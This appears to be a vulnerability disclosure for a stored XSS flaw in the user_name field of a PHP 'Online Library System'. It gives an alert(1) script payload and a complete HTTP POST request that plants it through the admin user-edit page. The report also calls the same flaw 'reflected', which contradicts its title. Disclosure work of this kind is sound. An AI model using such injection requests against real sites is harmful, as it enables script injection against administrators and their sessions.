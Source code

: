 ### BUG_AUTHOR:LIU WEIYU
# Online Library System – Stored XSS on (admin/users/controller.php user_name parameter) 
## Vendor Homepage:
https://www.sourcecodester.com/php/14816/online-library-system-phpmysqli-full-source-code.html 
## Version:V1.0
## Tested on: PHP, Apache, MySQL
## Affected Page:
admin/users/controller.php 

On this page, user_name parameter is vulnerable to reflected XSS Attack 
## Proof of vulnerability:
### Payload：
<script>alert(1)</script>
### Request:
```
POST http://192.168.0.105/OLS/admin/users/controller.php?action=edit HTTP/1.1
Host: 192.168.0.105
Content-Length: 136
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.0.105
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.0.105/OLS/admin/users/index.php?view=edit&id=3
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=g883r0l08f296hfd9582abk9v0
Connection: close

user_id=3&deptid=&user_name=Janno+Palacios%3Cscript%3Ealert%281%29%3C%2Fscript%3E&deptid=&user_email=admin&user_type=Administrator&save=
```
<img width="416" alt="image" src="https://github.com/thisissuperann/Vul/assets/148440408/2962745b-b967-40c1-bfa5-90cef30586d9">

## Trigger popup(The data has been stored in the database)：
<img width="416" alt="image" src="https://github.com/thisissuperann/Vul/assets/148440408/8b8ffed7-6504-4df0-997c-6fd8789b1916">

